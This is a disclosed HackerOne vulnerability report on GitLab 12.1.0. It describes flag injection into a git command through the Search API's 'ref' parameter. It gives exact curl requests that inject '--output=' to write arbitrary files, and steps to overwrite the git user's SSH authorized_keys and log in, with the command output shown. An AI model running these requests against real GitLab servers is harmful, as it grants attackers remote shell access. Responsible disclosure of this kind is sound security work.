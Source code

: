 # Git flag injection - local file overwrite to remote code execution

## Report Details
- **Report ID**: 658013
- **URL**: https://hackerone.com/reports/658013
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-07-24T13:23:41.478Z
- **Disclosed**: 2019-12-19T00:29:02.683Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

The `wiki_blobs` scope of the Search API can be provided with an arbitrary `ref` parameter, allowing for additional flags to be injected into the git command. 

For example the following API call:

```
`curl --header "PRIVATE-TOKEN: $TOKEN" 'http://gitlab-vm.local/api/v4/projects/4/search?scope=wiki_blobs&search=page&ref=--output=/tmp/file'`
```

The above will generate the following git command causing the the last commit log to be written to `/tmp/file`

```
/opt/gitlab/embedded/bin/git --git-dir /var/opt/gitlab/git-data/repositories/@hashed/4b/22/4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a.wiki.git log --max-count=1 --output=/tmp/file
```

### Steps to reproduce

1. Create a wiki new wiki page called `page` with the commit message `controlled content`
2. Search for the wiki blob via the Search API, with the injected ref flag:
```
curl --header "PRIVATE-TOKEN: $TOKEN" 'http://gitlab-vm.local/api/v4/projects/5/search?scope=wiki_blobs&search=page&ref=--output=/tmp/file'
```
3. See that the file has been created:
```
git@gitlab-vm:~$ cat /tmp/file
commit f00f9538d29b176e9dfb2eb1bfe1eab190cad3d9
Author: Administrator <admin@example.com>
Date:   Wed Jul 24 13:08:51 2019 +0000

    controlled content
```


### Impact
This can be used to overwrite `/var/opt/gitlab/.ssh/authorized_keys` with an attackers key by following the above steps allowing remote access and code execution.

1. Create a new rsa key
2. Create a new wiki page setting the commit message to the rsa public key
3. Run the Search API with `ref=--output=/var/opt/gitlab/.ssh/authorized_keys`
4. ssh into gitlab using the created key:

```
$ ssh git@gitlab-vm.local -i gitlab
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-70-generic x86_64)
$ id
uid=998(git) gid=998(git) groups=998(git)

$ cat /var/opt/gitlab/.ssh/authorized_keys
commit 00c8e52996654d02bcbdba47dc25ee73671cbfd6
Author: Administrator <admin@example.com>
Date:   Wed Jul 24 12:56:23 2019 +0000

    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxsqkWZobL5DBOnM3rtE7ZDP4d9v0lABJRGJbovHHTNY2iH3x3pjjerPfLDO21Gkyfzn4J+x6O6GleMAB5nxnZRH7E44khfW6Ldql29Rv2Q/IYCsBSKxGT6RCOFusoRi1uHlQmexIh4gZkmPeFfDLTy70Xv3FpPLfKE/EiVOjuEtY9JUC4MVlPHaTzZ2HE4sZT5tvcm9YtSpjT2v0SMR8uCXcKMAx4Tsu/Un2N5UziXgtRF+vD0fRhNyKIkOtULwBgWkL5RE71vYbxOhviqTAld7r70TIWSzSUHcUewbMS5XcEdBwl3XI/9qzo+jOA0Ulf2bkkROpELBoHwfLdpu9p will@MacBook-Pro.local
```

### What is the current *bug* behavior?
The `ref` param is passed directly to the git command without being sanitized.

### What is the expected *correct* behavior?
The `ref` param should be sanitized or used in a way that doesn't allow for flag injection 

#### Results of GitLab environment info

```
$ sudo gitlab-rake gitlab:env:info

System information
System:		Ubuntu 16.04
Current User:	git
Using RVM:	no
Ruby Version:	2.6.3p62
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.2
Redis Version:	3.2.12
Git Version:	2.21.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.1.0
Revision:	295480f4553
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.7
URL:		http://gitlab-vm.local
HTTP Clone URL:	http://gitlab-vm.local/some-group/some-project.git
SSH Clone URL:	git@gitlab-vm.local:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	9.3.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

An attacker can overwrite or create files with mostly controlled content, allowing them to gain remote ssh access to gitlab as the `git` user

## Attachments
No attachments
